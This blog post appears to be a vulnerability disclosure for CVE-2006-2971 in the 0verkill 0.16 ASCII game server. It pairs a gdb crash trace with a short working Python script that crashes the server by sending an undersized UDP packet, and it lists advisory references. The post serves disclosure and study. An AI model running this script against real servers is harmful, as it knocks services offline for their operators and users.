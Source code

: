 ```yaml
---
layout: post
title:  "CVE-2006-2971 – 0verkill - Remote Integer Overflow Crash Exploit"
date:   2006-06-09 00:00:00
categories: security cve
permalink: post/CVE-2006-2971-0verkill-remote-integer-overflow/
---
```


### Vendor

[http://artax.karlin.mff.cuni.cz/~brain/0verkill/][0verkill]

[0verkill]:	http://artax.karlin.mff.cuni.cz/~brain/0verkill/	"0verkill"

> 0verkill is bloody 2D action deathmatch-like game in ASCII-ART running under Linux, OS/2 and Windows.

### Description

Integer overflow in the recv_packet function in `0verkill 0.16` allows remote attackers to cause a denial of service (daemon crash) via a UDP packet with fewer than 12 bytes, which results in a long length value to the crc32 function.

### Debug with gdb

{% highlight bash %}
(gdb) run
Starting program: /home/federico/0verkill-0.16/server
9. 6.2006 14:18:07  Running 0verkill server version 0.16
9. 6.2006 14:18:07  Initialization.
9. 6.2006 14:18:07  Loading sprites.
9. 6.2006 14:18:07  Loading level "level1"....
9. 6.2006 14:18:07  Loading level graphics.
9. 6.2006 14:18:08  Loading level map.
9. 6.2006 14:18:08  Loading level objects.
9. 6.2006 14:18:08  Initializing socket.
9. 6.2006 14:18:08  Installing signal handlers.
9. 6.2006 14:18:08  Game started.
9. 6.2006 14:18:08  Sleep
9. 6.2006 14:18:10  Wakeup

(run python f_0k-0.6.py localhost 65525)

Program received signal SIGSEGV, Segmentation fault.
crc32 (buf=0x837a000 <Address 0x837a000 out of bounds>, len=4294967288) at crc32.c:82
warning: Source file is more recent than executable.
82            DO8(buf);
#
#0  0x0805b54a in recv_packet (packet=0x805fd20 "",
max_len=256, addr=0xf18df475, addr_len=0xf18df475, sender_server=0, recipient=0,
sender=0xbfcf6d54) at net.c:94
94              if (crc!=crc32(packet,retval-12))return -1;
#

# limits byte receive is 12, if you send an inferior number of it the game crash.
{% endhighlight %}

### Denial of service code snippet

{% highlight python %}
#!/usr/bin/env python

import os, sys
from socket import *

usage = "run: python %s [remote_addr] [remote_port] " % os.path.basename(sys.argv[0])

if len(sys.argv) < 3:
    print usage
    sys.exit()

host = sys.argv[1]
port = int(sys.argv[2])

sock = socket(AF_INET, SOCK_DGRAM)
sock.connect((host, port))

print "connecting.. ",
if sock > 0:
    print "done!"
else:
    print "wrong!"

print "crashing the server.. ",
if sock.sendto('0x00' , (host, port)):
    print "done!"
else:
    print "wrong!"

print "wait five seconds, if no data found press CTRL+C"
try:
    reply = sock.recvfrom(512)
    print reply
except:
    print "no data receive!"
    sys.exit()
{% endhighlight %}

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971][mitre]
* [http://www.securityfocus.com/bid/18353][securityfocus]
* [http://www.osvdb.org/26029][osvdb]
* [http://secunia.com/advisories/20551][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-2971 "CVE-2006-2971"
[securityfocus]:	http://www.securityfocus.com/bid/18353						"SecurityFocus-18353"
[osvdb]:			http://www.osvdb.org/26029									"OSVDB-26029"
[secunia]:			http://secunia.com/advisories/20551							"Secunia-20551"